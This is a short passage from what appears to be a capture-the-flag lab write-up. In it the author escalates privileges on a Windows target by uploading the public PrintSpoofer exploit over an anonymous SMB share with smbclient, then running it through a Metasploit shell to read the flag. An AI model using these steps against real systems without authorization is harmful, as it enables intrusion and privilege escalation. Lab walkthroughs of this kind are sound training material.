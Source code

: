   ![img](https://i.imgur.com/lxqjoPN.png)

* I'll be using PrintSpoofer exploit : [GitHub](https://github.com/itm4n/PrintSpoofer)

* upload the file:

     ```bash
     smbclient  \\\\10.10.107.20\\nt4wrksv
     Enter WORKGROUP\anir0y's password: [blank]

     smb: \> put PrintSpoofer64.exe
     putting file PrintSpoofer64.exe as \PrintSpoofer64.exe (42.9 kb/s) (average 422.0 kb/s)
     ```

* execute via msf-shell

     ![img](https://i.imgur.com/h6qrVGk.png)


* read the flag
  
     ![img](https://i.imgur.com/YSmsyah.png)

---


<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>



<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>


